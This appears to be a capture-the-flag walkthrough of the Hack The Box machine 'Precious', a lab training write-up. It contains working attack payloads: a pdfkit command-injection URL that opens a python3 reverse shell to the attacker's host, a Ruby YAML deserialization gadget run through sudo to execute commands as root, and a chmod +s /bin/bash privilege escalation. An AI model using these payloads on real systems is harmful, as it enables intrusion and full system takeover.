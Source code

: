 # HTB - Precious

For start, i'll run nmap scan on all ports of the machine:
```bash
nmap 10.10.11.189 -p-
```
I found that ports 22 (ssh) and 80 (http) are open.
I will run another nmap scan for deeper look on this ports:
```bash
nmap -A 10.10.11.189 -p 22, 80
```

![image](https://user-images.githubusercontent.com/114166939/225315053-fbb7090c-6dac-4930-a86b-e5dd9dfca859.png)

It seems that there is nothing interesting about the ssh, but there is a website on the domain "http://precious.htb/" which works on nginx 1.18.0.

Now, before i'll try to open the website page, i'll add the domain to the /etc/hosts file.
```bash
nano /etc/hosts
```
![image](https://user-images.githubusercontent.com/114166939/225313538-ccb7e436-9d80-47cf-8873-baf4032e4875.png)

Now the website appears!

![image](https://user-images.githubusercontent.com/114166939/225313809-d39cc651-8fb8-43e8-ba52-4e2a4b3cc801.png)

The edit text does'nt getting any remote url, so i'll try a local one.

I'll open a python3 web server on my machine.
```bash
python3 -m http.server
```
And now I can write in the edit box at the web page the following url: 
"http://[MY-IP]:8000"

I got a screen-shot of my python3 server as a PDF file.

![image](https://user-images.githubusercontent.com/114166939/225316684-a2b9fc4d-b9cb-41e8-bbc1-8121afb38f6a.png)

I will save this screen-shot as a file on my machine and now i'll try to analyze it with exiftool:
```bash
exiftool 68ci7ek2mcv3lsdmyup77rgd2gbv1e3d.pdf 
```

![image](https://user-images.githubusercontent.com/114166939/225317837-a4bbd9a8-b25f-4836-9c7c-d0ed7f6c8f1e.png)

The creator of this file called "pdfkit v0.8.6", that's the service the server use to make the pdf files.

There is a known command injection exploit on this service - i'll use an exploit from this website: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![image](https://user-images.githubusercontent.com/114166939/225319623-001804a0-bbe6-4673-8018-1baf4dd043e2.png)

First, i'll try to force the website a 5 seconds delay, also, I will use the python3 server again:
```bash
http://[MY-IP]:8000/?name=#{'%20`sleep 5`'}.to_pdf 
```
It works! now, I can change the sleep command for another command to get a reverse-shell on the machine:

Before i'll try to modify the injection command, i'll open netcat listener with the following line:
```bash
nc -lnvp 4567
```
Now, the new injection will change from sleep command to python3 ,url encoded, reverse shell command:
```bash
http://[MY-IP]:8000/?name=#{'%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[MY-IP]",4567));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`'}.to_pdf
```

![image](https://user-images.githubusercontent.com/114166939/225328174-91a1b7dd-fdfa-4c25-b14e-1d91c8b6189c.png)

First, i'll search for some information on current user:

![image](https://user-images.githubusercontent.com/114166939/225333012-81439138-679f-4b18-b65e-10a8ad6b56b8.png)

![image](https://user-images.githubusercontent.com/114166939/225333607-a5d1aeb9-b480-4e58-8972-0f24571cba3c.png)

Also. i'll try find out which users there are on the machine:

![image](https://user-images.githubusercontent.com/114166939/225333916-049f591e-7408-442e-b437-ececc76fe188.png)

The flag is at henry's home directory and as the current user, ruby, I do'nt have access:

![image](https://user-images.githubusercontent.com/114166939/225334484-de30199a-6b96-405b-aa55-1071a5c3ee4f.png)

On ruby's home directory there is a hidden suspicious direcory called ".bundle", in it I found a file called "config".

The content of this file is henry's credentials!

![image](https://user-images.githubusercontent.com/114166939/225337296-47f43372-f10d-469d-a889-650f974dfc83.png)

I'll use this credentials to connect henry via ssh:
```bash
ssh henry@10.10.11.189
```
Success!

![image](https://user-images.githubusercontent.com/114166939/225338482-1ceadbc3-221c-4d04-9ff1-d39ad31a96d7.png)

From henry's user I can print user.txt and get the flag:

![image](https://user-images.githubusercontent.com/114166939/225341738-a71c81b8-7ad0-4b86-b35c-4d19bcbf178b.png)

Now im going to escalate the privileges from henry to root!
First i'll run a "sudo -l" command:

![image](https://user-images.githubusercontent.com/114166939/225344459-9825a004-cb6a-420c-aee6-3a0d4de09550.png)

Let's check "/opt/update_dependencies.rb" file:

![image](https://user-images.githubusercontent.com/114166939/225345307-a1620b31-9fbf-4186-8df7-0d4c3a7ce3da.png)

![image](https://user-images.githubusercontent.com/114166939/225349125-5ff2901d-2d49-405e-9654-436a15f06c05.png)

In the code I can see that it use a function called "YAML.load()" and it loads a file called dependencies.yml.
After searching online, I found this website - https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

In this website there is a yml code for bash command injection:
I'll change the "git_set:" option to test if it works and save it as "dependencies.yml" in henry's home directory:
(Any command running from this file will run as root permissions)
```yml
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

And run:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

It works!

![image](https://user-images.githubusercontent.com/114166939/225352225-0d9b5b75-af30-43a6-84c3-ad6e1f2ff8e8.png)

Instead of "whoami" command i'll change the command for this:
```bash
chmod +s /bin/bash
```

So on "/bin/bash" will be SUID:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![image](https://user-images.githubusercontent.com/114166939/225358387-20e3c0ea-a5ac-45b9-9fb0-25592872501e.png)

Now all that's left to do is running the command:
```bash
/bin/bash -p
```

![image](https://user-images.githubusercontent.com/114166939/225359267-b004b58a-c1cf-4974-b7f4-a90b55de79c4.png)

![image](https://user-images.githubusercontent.com/114166939/225359919-3ea38c37-2aaf-4903-b7c7-20d25e89ffd0.png)

